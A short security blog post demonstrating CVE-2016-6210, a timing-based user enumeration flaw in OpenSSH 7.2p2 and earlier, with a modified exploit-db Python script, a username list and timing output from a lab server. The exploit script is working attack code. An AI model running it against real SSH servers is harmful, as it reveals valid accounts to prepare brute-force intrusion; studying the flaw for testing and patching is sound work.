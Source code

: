 Title:CVE 2016-6210 OpenSSHD user enumeration
Date: 07-23-2016 08:45
category:security
tags:cve, security, exploit
meta:cve, security, exploit

The 13th if July a new wild CVE appeared (Yes, Pokemon Go is still a buzz for
the moment).

The [CVE 2016-6210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6210)
allow a user enumeration on an SSH server by comparing request time between non
existing user and allowed ones.
This vulnerability target  OpenSSHD with a version of 7.2p2 or inferior.

That means with a good dictionary you may know which user are
present on the server with an SSH access.

This post just demonstrate how to exploit this vulnerability with a simple
example.

<!-- PELICAN_END_SUMMARY -->

## OpenSSHD <= 7.2p2 - User Enumeration

A tiny python script is present on
[exploit-db](https://www.exploit-db.com/exploits/40113/). I had to modify it a
bit in order to pass the username in parameter:

    #!/bin/python

    import paramiko
    import time
    import sys
    user = sys.argv[1]
    p='A'*25000
    ssh = paramiko.SSHClient()
    starttime=time.clock()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
             ssh.connect('192.168.4.231', username=user,
             password=p)
    except:
             endtime=time.clock()
    total=endtime-starttime
    print(str(user)+ ": " +str(total))

The script will simply try to connect to `192.168.4.231` with the user passed in
parameter and a password of 25 000 'A' and measure the time of the connection.

We create a simple list of possible user with a non existing user to be able to
compare connection times.

    [maggick@computer_name tmp]$ cat list
    nonExistsingUserForSure
    john
    root
    bob
    user
    alice
    max
    ssh_user

We launch the script against our test server:

    [maggick@computer_name tmp]$ while read l; do ./p.py $l; done < list
    nonExistsingUserForSure: 0.17941999999999997
    john: 0.18687900000000002
    root: 0.18173099999999998
    bob: 0.178726
    user: 0.23088699999999995
    alice: 0.13389600000000002
    max: 0.17069700000000004
    ssh_user: 0.24780699999999997

We can easily see that SSH root login is disallowed, and that the user `user`
and `ssh_user` are allowed to connect to the server using SSH.

As often with brute force, the major issue will be to build the dictionary but
some tools like [CeWL](https://github.com/digininja/CeWL) from digininja can
help build it.
